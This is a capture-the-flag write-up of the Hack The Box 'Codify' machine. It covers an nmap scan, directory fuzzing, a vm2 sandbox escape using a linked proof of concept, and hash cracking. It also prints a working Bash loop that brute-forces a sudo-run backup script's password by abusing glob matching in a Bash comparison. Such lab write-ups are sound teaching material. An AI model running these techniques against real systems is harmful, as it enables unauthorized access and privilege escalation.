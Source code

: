 # codify

![Untitled](codify%2014a5eab8b89545088470140172cb5cb0/Untitled.png)

### Enumeration

Add the machine ip address to /etc/hosts file and save it

![Untitled](codify%2014a5eab8b89545088470140172cb5cb0/Untitled%201.png)

Scan the target for open ports using nmap

```jsx
➜  codify sudo nmap -sVC -Pn -p- -sV -sC -T4 --min-rate=1500 -oN nmap-scan codify.htb
# Nmap 7.94 scan initiated Fri Dec 22 01:45:15 2023 as: nmap -sVC -Pn -p- -sV -sC -T4 --min-rate=1500 -oN nmap-scan codify.htb
Warning: 10.10.11.239 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.239
Host is up (0.36s latency).
Not shown: 38998 filtered tcp ports (no-response), 26533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http       Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http       Node.js Express framework
|_http-title: Codify
8080/tcp open  http-proxy
|_http-title: Site doesn't have a title (text/plain).
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, SMBProgNeg, SSLSessionReq, Socks4, Socks5, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Fri, 22 Dec 2023 01:49:35 GMT
|     Connection: close
|     Hello World!
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Fri, 22 Dec 2023 01:49:34 GMT
|     Connection: close
|_    Hello World!
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94%I=7%D=12/22%Time=6584EB32%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\n
SF:Date:\x20Fri,\x2022\x20Dec\x202023\x2001:49:34\x20GMT\r\nConnection:\x2
SF:0close\r\n\r\nHello\x20World!")%r(HTTPOptions,71,"HTTP/1\.1\x20200\x20O
SF:K\r\nContent-Type:\x20text/plain\r\nDate:\x20Fri,\x2022\x20Dec\x202023\
SF:x2001:49:34\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World!")%r(R
SF:TSPRequest,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\
SF:nDate:\x20Fri,\x2022\x20Dec\x202023\x2001:49:35\x20GMT\r\nConnection:\x
SF:20close\r\n\r\nHello\x20World!")%r(FourOhFourRequest,71,"HTTP/1\.1\x202
SF:00\x20OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Fri,\x2022\x20Dec\x
SF:202023\x2001:49:35\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World
SF:!")%r(Socks5,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20c
SF:lose\r\n\r\n")%r(Socks4,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConne
SF:ction:\x20close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,"HTTP/
SF:1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSSt
SF:atusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConne
SF:ction:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x20Bad\x
SF:20Request\r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,2F,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(
SF:TLSSessionReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(Kerberos,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(SMBProgNeg,2F,"HTTP/1\.1\x20400\x20Bad\x
SF:20Request\r\nConnection:\x20close\r\n\r\n")%r(X11Probe,2F,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(LPDString,2F
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%
SF:r(LDAPSearchReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x
SF:20close\r\n\r\n")%r(LDAPBindReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n");
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 22 01:50:11 2023 -- 1 IP address (1 host up) scanned in 295.83 seconds
```

From the nmap scan, there are four (4) open port

➜ 22 running ssh

➜ 80 running Apache httpd

➜ 3000 running node.js

➜ 8080 running http-proxy

visiting the webpage running on port 80 

![Untitled](codify%2014a5eab8b89545088470140172cb5cb0/Untitled%202.png)

### Directory Enumeration

using ffuf, i performed directory fuzzing on the target and found some directories

```jsx
ffuf -ic -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .txt,.php,.xml,.html -u http://codify.htb/FUZZ
```

![Untitled](codify%2014a5eab8b89545088470140172cb5cb0/Untitled%203.png)

i visited http://codify.htb/about

![Screenshot from 2023-12-23 01-58-50.png](codify%2014a5eab8b89545088470140172cb5cb0/Screenshot_from_2023-12-23_01-58-50.png)

### Exploitatio

i found out that the target is runnig vm2 with a version 0f 3.9.16 so i decided to look for an exploit for it (**CVE-2023–30547)**

There exists a vulnerability in exception sanitization of vm2 for versions up to 3.9.16, allowing attackers to raise an unsanitized host exception inside `handleException()` which can be used to escape the sandbox and run arbitrary code in host context.****

[https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

after i deploying the proof of concept for thr vulnerability, i got a sell

![Screenshot from 2023-12-23 02-07-55.png](codify%2014a5eab8b89545088470140172cb5cb0/Screenshot_from_2023-12-23_02-07-55.png)

![Untitled](codify%2014a5eab8b89545088470140172cb5cb0/Untitled%204.png)

**SUPER!!! i got a ShElL!!!! 🙂🙂**

![download (2).jpeg](codify%2014a5eab8b89545088470140172cb5cb0/download_(2).jpeg)

### User flag

i tried to read the user.txt but i got permission denied 😢😢. we have to escalate our privilege to Joshua before we can read user.txt

After so many tires and tirals 😩😫, i decided to look at the web directory ********************************/var/ww/contact********************************  and found something intresting 😉

Looking at it it was a database owned by svc user i was currently running as 

![Screenshot from 2023-12-27 13-35-50.png](codify%2014a5eab8b89545088470140172cb5cb0/Screenshot_from_2023-12-27_13-35-50.png)

Of course, i tried reading the content of the database and i found a hash for a user  and a message 

![Screenshot from 2023-12-27 13-40-19.png](codify%2014a5eab8b89545088470140172cb5cb0/Screenshot_from_2023-12-27_13-40-19.png)

i cracked the hash using john the ripper and got a password

![Screenshot from 2023-12-27 14-02-05.png](codify%2014a5eab8b89545088470140172cb5cb0/Screenshot_from_2023-12-27_14-02-05.png)

i used the password i go to login into the ssh server as joshua

![Untitled](codify%2014a5eab8b89545088470140172cb5cb0/Untitled%205.png)

Finally, as the joshua user I could read the protected user flag in /home/joshua/user.txt:

![Screenshot from 2023-12-27 23-33-03.png](codify%2014a5eab8b89545088470140172cb5cb0/Screenshot_from_2023-12-27_23-33-03.png)

### Root Flag

Since i have joshua’s password, the first thing i would do is to check if he has any sudo privileges

```jsx
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$
```

Analyzing **/opt/scripts/mysql-backup.sh** i discovered that the script compares the user-provided password (USER_PASS) with the actual database password (DB_PASS). The vulnerability here is due to the use of == inside [[ ]] in Bash, which performs pattern matching rather than a direct string comparison. This means that the user input (USER_PASS) is treated as a pattern, and if it includes glob characters like * or ?, it can potentially match unintended strings.

For example, if the actual password (DB_PASS) is password123 and the user enters * as their password (USER_PASS), the pattern match will succeed because * matches any string, resulting in unauthorized access.

### Exploiting

I used a Bash script that exploits this by testing password prefixes and suffixes to slowly reveal the full password.

it builds up the password character by character, confirming each guess by invoking the script via sudo and checking for a successful run.

```jsx
password=""

while true; do
    password_check=$(echo "$password" | sudo /opt/scripts/mysql-backup.sh 2>&1 | wc -l)

    if [ $password_check -gt 2 ]
    then
        echo "$password"
        break
    fi

    for char in {a..z} {A..Z} {0..9}; do
        result_number_of_lines=$(echo "$password$char*" | sudo /opt/scripts/mysql-backup.sh 2>&1 | wc -l)

        if [ $result_number_of_lines -gt 2 ]
        then
            password="$password$char"
            continue
        fi
    done
done
```

![Screenshot from 2023-12-27 23-53-45.png](codify%2014a5eab8b89545088470140172cb5cb0/Screenshot_from_2023-12-27_23-53-45.png)

with the backup password, i was able to switch to root

![Screenshot from 2023-12-27 23-56-13.png](codify%2014a5eab8b89545088470140172cb5cb0/Screenshot_from_2023-12-27_23-56-13.png)

![download.jpeg](codify%2014a5eab8b89545088470140172cb5cb0/download.jpeg)
